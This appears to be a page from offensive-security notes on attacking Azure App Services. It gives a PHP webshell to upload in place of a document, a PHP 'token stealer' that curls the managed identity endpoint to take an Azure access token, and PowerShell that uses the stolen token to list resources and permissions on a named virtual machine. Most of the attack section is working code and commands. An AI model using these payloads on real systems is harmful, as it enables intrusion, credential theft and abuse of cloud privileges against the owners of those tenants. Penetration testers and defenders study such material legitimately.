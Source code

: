 # App Service

## App services

> Different sort of vulnerabilities can be found such as SQLi, file upload, commands injection etc.
>
> App services are most of the time running under \*Low privilege\*, restricting the impact of an attack.
>
> In some case, Management Identity in place on a App Service :&#x20;
>
> Ex: A user upload a file on an App Service and the App Service is moving the file on a VM.
>
> An Azure role has maybe created to handle the task.
>
> If we have able to compromise this Manage Identity account, we can abuse his privileges, e.g. connect to a Database, Execute commands on a Virtual Machine etc ..

### Manage Identity

> Once an App service is compromised, we can confirm if Management Identity is in place.

#### ENV variables

> If the following variables are listed in the ENV variables, MI is in place
>
> * **IDENTITY\_HEADER**
> * **IDENTITY\_ENDPOINT**

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

> Once the 2 variables token stolen, it is possible to request a token !

```bash
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

## Common Web APP vulnerabilties

### Classic file upload

* Webshell  phtml instead of doc ..

```php
<?php
system($_REQUEST['cmd']);
?>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>simple webshell</p></figcaption></figure>

* token stealer

```php
<?php

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Using the stolen token



```bash
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

* check the roles (using the clientID and JWT)

```powershell
PS C:\Tools\Az> import-module az
PS C:\Tools\Az> Connect-AzAccount -AccessToken $token -AccountId <clientID>
PS C:\Tools\Az> Get-AzResource
PS C:\Tools\Az> 

```

<figure><img src="../../../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>



OR



```powershell
$URI = 'https://management.azure.com/subscriptions/<CLIEND-ID>/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/provide
rs/Microsoft.Authorization/permissions?api-version=2015-07-01'

PS C:\> $RequestParams = @{
>> Method = 'GET'
>> Uri= $URI
>> Headers = @{
>> 'Authorization' = "Bearer $Token"
>> }
>> }
PS C:\> (Invoke-RestMethod @RequestParams).value



```

<figure><img src="../../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

